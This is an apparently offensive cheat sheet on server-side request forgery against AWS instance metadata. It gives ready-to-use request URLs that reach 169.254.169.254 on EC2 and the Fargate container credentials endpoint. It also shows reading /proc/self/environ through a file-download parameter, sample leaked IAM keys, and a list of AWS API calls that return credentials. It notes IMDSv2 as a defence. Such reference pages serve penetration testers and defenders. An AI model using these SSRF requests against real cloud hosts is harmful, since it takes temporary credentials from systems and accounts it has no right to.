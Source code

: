 # AWS - Metadata SSRF

> AWS released additional security defences against the attack.

:warning: Only working with IMDSv1.
Enabling IMDSv2 : `aws ec2 modify-instance-metadata-options --instance-id <INSTANCE-ID> --profile <AWS_PROFILE> --http-endpoint enabled --http-token required`.

In order to use IMDSv2 you must provide a token.

```powershell
export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
```


## Method for Elastic Cloud Compute (EC2)

Amazon provides an internal service that allows every EC2 instance to query and retrieve metadata about the host. If you discover an SSRF vulnerability running on an EC2 instance, try to fetch the content from 169.254.169.254.

1. Access the IAM : [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)
    ```powershell
    ami-id
    ami-launch-index
    ami-manifest-path
    block-device-mapping/
    events/
    hostname
    iam/
    identity-credentials/
    instance-action
    instance-id
    ```
2. Find the name of the role assigned to the instance : [http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)
3. Extract the role's temporary keys : [http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/](http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM_USER_ROLE_HERE>/)
    ```powershell
    {
    "Code" : "Success",
    "LastUpdated" : "2019-07-31T23:08:10Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "ASIAREDACTEDXXXXXXXX",
    "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXX",
    "Token" : "AgoJb3JpZ2luX2VjEDU86Rcfd/34E4rtgk8iKuTqwrRfOppiMnv",
    "Expiration" : "2019-08-01T05:20:30Z"
    }
    ```


## Method for Container Service (Fargate)

1. Fetch the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI variable from https://awesomeapp.com/download?file=/proc/self/environ
    ```powershell
    JAVA_ALPINE_VERSION=8.212.04-r0
    HOSTNAME=bbb3c57a0ed3SHLVL=1PORT=8443HOME=/root
    AWS_CONTAINER_CREDENTIALS_RELATIVE_URI=/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    AWS_EXECUTION_ENV=AWS_ECS_FARGATEMVN_VER=3.3.9JAVA_VERSION=8u212AWS_DEFAULT_REGION=us-west-2
    ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/cb4f6285-48f2-4a51-a787-67dbe61c13ffPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin:/usr/lib/mvn:/usr/lib/mvn/binLANG=C.UTF-8AWS_REGION=us-west-2Tag=48111bbJAVA_HOME=/usr/lib/jvm/java-1.8-openjdk/jreM2=/usr/lib/mvn/binPWD=/appM2_HOME=/usr/lib/mvnLD_LIBRARY_PATH=/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64/server:/usr/lib/jvm/java-1.8-openjdk/jre/lib/amd64:/usr/lib/jvm/java-1.8-openjd
    ```
2. Use the credential URL to dump the AccessKey and SecretKey : https://awesomeapp.com/forward?target=http://169.254.170.2/v2/credentials/d22070e0-5f22-4987-ae90-1cd9bec3f447
    ```powershell
    {
        "RoleArn": "arn:aws:iam::953574914659:role/awesome-waf-role",
        "AccessKeyId": "ASIAXXXXXXXXXX",
        "SecretAccessKey": "j72eTy+WHgIbO6zpe2DnfjEhbObuTBKcemfrIygt",
        "Token": "FQoGZXIvYXdzEMj/////...jHsYXsBQ==",
        "Expiration": "2019-09-18T04:05:59Z"
    }
    ```


## AWS API calls that return credentials

- [chime:createapikey](https://docs.aws.amazon.com/service-authorization/latest/reference/list_amazonchime.html)
- [codepipeline:pollforjobs](https://docs.aws.amazon.com/codepipeline/latest/APIReference/API_PollForJobs.html)
- [cognito-identity:getopenidtoken](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdToken.html)
- [cognito-identity:getopenidtokenfordeveloperidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetOpenIdTokenForDeveloperIdentity.html)
- [cognito-identity:getcredentialsforidentity](https://docs.aws.amazon.com/cognitoidentity/latest/APIReference/API_GetCredentialsForIdentity.html)
- [connect:getfederationtoken](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [connect:getfederationtokens](https://docs.aws.amazon.com/connect/latest/APIReference/API_GetFederationToken.html)
- [ecr:getauthorizationtoken](https://docs.aws.amazon.com/AmazonECR/latest/APIReference/API_GetAuthorizationToken.html)
- [gamelift:requestuploadcredentials](https://docs.aws.amazon.com/gamelift/latest/apireference/API_RequestUploadCredentials.html)
- [iam:createaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateAccessKey.html)
- [iam:createloginprofile](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateLoginProfile.html)
- [iam:createservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_CreateServiceSpecificCredential.html)
- [iam:resetservicespecificcredential](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ResetServiceSpecificCredential.html)
- [iam:updateaccesskey](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAccessKey.html)
- [lightsail:getinstanceaccessdetails](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetInstanceAccessDetails.html)
- [lightsail:getrelationaldatabasemasteruserpassword](https://docs.aws.amazon.com/lightsail/2016-11-28/api-reference/API_GetRelationalDatabaseMasterUserPassword.html)
- [rds-db:connect](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)
- [redshift:getclustercredentials](https://docs.aws.amazon.com/redshift/latest/APIReference/API_GetClusterCredentials.html)
- [sso:getrolecredentials](https://docs.aws.amazon.com/singlesignon/latest/PortalAPIReference/API_GetRoleCredentials.html)
- [mediapackage:rotatechannelcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-credentials.html)
- [mediapackage:rotateingestendpointcredentials](https://docs.aws.amazon.com/mediapackage/latest/apireference/channels-id-ingest_endpoints-ingest_endpoint_id-credentials.html)
- [sts:assumerole](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html)
- [sts:assumerolewithsaml](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-saml.html)
- [sts:assumerolewithwebidentity](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html)
- [sts:getfederationtoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-federation-token.html)
- [sts:getsessiontoken](https://docs.aws.amazon.com/cli/latest/reference/sts/get-session-token.html)


## References

* [AWS API calls that return credentials - kmcquade](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)
* [Cloud security instance metadata - PumaScan - Eric Johnson - 09 Oct 2019](https://pumascan.com/resources/cloud-security-instance-metadata/)
* [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2) - Sunesh Govindaraj - Nov 25, 2019](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
* [Privilege escalation in the Cloud: From SSRF to Global Account Administrator - Maxime Leblanc - Sep 1, 2018](https://medium.com/poka-techblog/privilege-escalation-in-the-cloud-from-ssrf-to-global-account-administrator-fd943cf5a2f6)
* [Getting shell and data access in AWS by chaining vulnerabilities - Riyaz Walikar - Aug 29, 2019 ](https://blog.appsecco.com/getting-shell-and-data-access-in-aws-by-chaining-vulnerabilities-7630fa57c7ed)